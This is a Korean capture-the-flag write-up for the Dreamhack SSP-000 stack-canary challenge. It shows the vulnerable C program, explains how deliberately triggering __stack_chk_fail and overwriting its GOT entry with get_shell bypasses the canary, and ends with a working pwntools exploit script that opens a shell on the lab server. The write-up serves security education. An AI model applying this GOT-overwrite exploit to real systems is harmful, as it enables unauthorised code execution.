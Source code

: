 ```yaml
---
layout: post
title: [Dreamhack] SSP-000
subtitle: Dreamhack SSP-000 문제 풀이
categories: Pwnable
tags: [Pwnable, dreakhack, Canary, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131011-8fd417f2-0eb6-4ea6-aeae-fa628e45c207.jpg">
</p>

해당 문제는 Dreamhack Pwnable 교육과정 중 Stack Canary 실습 문제이다. 따라서 문제에서 요구하는 바는 SSP 방어 기법을 위해하여 flag를 획득하는 것이다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131229-8ffe19bd-f21c-4b96-be1e-d172d74699a3.jpg" width = 350>
</p>

* NX bit 활성화로 인해서 BUF에 쉘 코드를 직접 대입하진 못할 것이고, Canary가 존재하므로 Canary leak을 통해 RET를 `get_shell`로 변경할 수 있을 것으로 예상했다.

* 하지만, 문제를 보면 Canary의 값을 알 방법은 없다.

```C
*(long *)addr = value;
```

이 부분을 통해 addr의 메모리 값을 변경할 수 있을 것으로 예상된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131377-bda6a500-8902-4258-a11f-77165fb74904.jpg" width = 350>
</p>

`pwndbg`를 통해 disassemble 했을 때 스택 메모리를 표현한 것이다.

```C
read(0, buf, 0x80);
```

해당 함수를 통해 Canary값을 변조하여 **call   0x4006d0 <__stack_chk_fail@plt>** 호출이 가능하게 된다.

**__stack_chk_fail@plt**를 통해 GOT를 참조할 것이다. 따라서, 우리가 입력할 수 있는 addr를 **__stack_chk_fail@got**로 변경하고, 해당 내용을 `get_shell`로 변경하면 된다.(해당 루틴이 정확하게 어떻게 이루어지는지 더 공부해야할 것으로 보인다.)

* **addr** : **__stack_chk_fail@got** 주소
* **__stack_chk_fail@got** : `get_shell`의 주소

현재로서는 이렇게 이해하고 있습니다.

```python
from pwn import *

#p = process("./ssp_000")
p = remote("host3.dreamhack.games", 12630)
elf = ELF("./ssp_000")

get_shell = elf.symbols['get_shell']
p.sendline(b"A"*80) #nop 80bytes

p.recvuntil("r : ") #Addr :

p.sendline(str(elf.got['__stack_chk_fail']))

p.recvuntil("e : ") #value :

p.sendline(str(get_shell))

p.interactive()
```